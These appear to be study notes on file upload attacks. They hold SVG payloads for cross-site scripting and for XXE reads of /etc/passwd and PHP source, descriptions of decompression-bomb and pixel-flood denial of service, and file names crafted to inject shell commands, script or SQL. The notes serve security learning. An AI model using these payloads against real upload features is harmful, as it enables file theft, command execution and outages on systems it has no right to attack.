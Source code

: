 Finally, XSS attacks can also be carried with `SVG` images, along with several other attacks.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```

### XXE

Similar attacks can be carried to lead to XXE exploitation. With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server. The following example can be used for an SVG image that leaks the content of (`/etc/passwd`):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

To use XXE to read source code in PHP web applications, we can use the following payload in our SVG image:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
### DoS
Furthermore, we can utilize a `Decompression Bomb` with file types that use data compression, like `ZIP` archives. If a web application automatically unzips a ZIP archive, it is possible to upload a malicious archive containing nested ZIP archives within it, which can eventually lead to many Petabytes of data, resulting in a crash on the back-end server.

Another possible DoS attack is a `Pixel Flood` attack with some image files that utilize image compression, like `JPG` or `PNG`. We can create any `JPG` image file with any image size (e.g. `500x500`), and then manually modify its compression data to say it has a size of (`0xffff x 0xffff`), which results in an image with a perceived size of 4 Gigapixels. When the web application attempts to display the image, it will attempt to allocate all of its memory to this image, resulting in a crash on the back-end server.

## Other Upload Attacks

### Injections in File Name

For example, **==if we name a file `file$(whoami).jpg` or ``file`whoami`.jpg`` or `file.jpg||whoami`, and then the web application attempts to move the uploaded file with an OS command (e.g. `mv file /tmp`), then our file name would inject the `whoami` command, which would get executed, leading to remote code execution.==** 

==Similarly, we may use an XSS payload in the file name (e.g. `<script>alert(window.origin);</script>`)==, which would get executed on the target's machine if the file name is displayed to them. ==We may also inject an SQL query in the file name (e.g. `file';select+sleep(5);--.jpg`), which may lead to an SQL injection if the file name is insecurely used in an SQL query.== 
!!IMPORTANT [[SQL_Injection_Fundamentals]]
